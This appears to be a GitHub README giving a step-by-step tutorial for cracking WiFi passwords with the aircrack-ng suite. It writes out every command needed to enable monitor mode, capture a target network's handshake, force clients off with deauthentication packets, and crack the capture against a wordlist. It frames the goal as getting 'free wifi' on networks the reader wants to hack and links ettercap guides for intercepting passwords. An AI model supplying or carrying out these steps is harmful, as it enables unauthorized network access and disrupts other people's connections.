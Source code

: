 ## How to crack WiFi passwords

### Prerequisites
- It is better to use bare-metal Ubuntu or Kali
- You need a wireless network adapter which supports monitor mode
- `sudo apt install aircrack-ng --fix-missing`

### Steps
1. Open root shell.

2. To kill the services running, do  
   `airmon-ng check kill`

3. Get the interface name via  
   `airmon-ng`

4. Start monitor mode by doing  
   `airmon-ng start [interface name]`

5. To get the new interface name, do  
   `iwconfig`

6. Look for the WiFi you want to hack and copy channel number (CH) and ID (BSSID)  
   `airodump-ng [interface name]`

7. Now we will need to record the packets, so run  
   `airodump-ng -c[CH] -w [file to write packet dump to] -d [BSSID] [interface name]`  
   Eg. `airodump-ng -c9 -w tobehacked -d 1C:61:B4:9B:96:C0 wlo1mon`  

   Take note that you will be able to see the other devices currently on the network under `STATION`  

8.  Now that packet capture has started, you need to deauth someone so that they reconnect or get someone else who has the password to connect. In another terminal, run
   `aireplay-ng --deauth [count] -a [BSSID] -c [STATIONID] [interface name]`
   Note that if you do not specify the client to deauth, then it will be a broadcast deauth.

9.  Now, pray that someone was deauthed and their EAPOL authentication packet was captured.

10. Stop the capture: `ctrl+c`  
    Do `ls` and look for `[file to write packet dump to]-01.cap`. Eg. `tobehacked-01.cap`

11. Now, we need to crack the authentication packet. Run  
    `aircrack-ng [capture file] -w [wordlist]`  
    Eg. `aircrack-ng tobehacked-01.cap -w rockyou.txt`

12. If it says that no EAPOL packet was found, then you have no choice but to restart the packet capture with another filename and try the deauth attack again.

13. Otherwise, you got your password. Now you got to turn back on your own WiFi lol...  
    `airmon-ng stop [interface name]`  
    Eg. `airmon-ng stop wlo1mon`  

    Then run  
    `systemctl start wpa_supplicant NetworkManager`

14. Connect to the WiFi and hopefully free wifi yay!

### Extension

To carry out more hacking (with ettercap), refer to:
- https://www.comparitech.com/net-admin/ettercap-cheat-sheet/
- https://null-byte.wonderhowto.com/how-to/use-ettercap-intercept-passwords-with-arp-spoofing-0191191/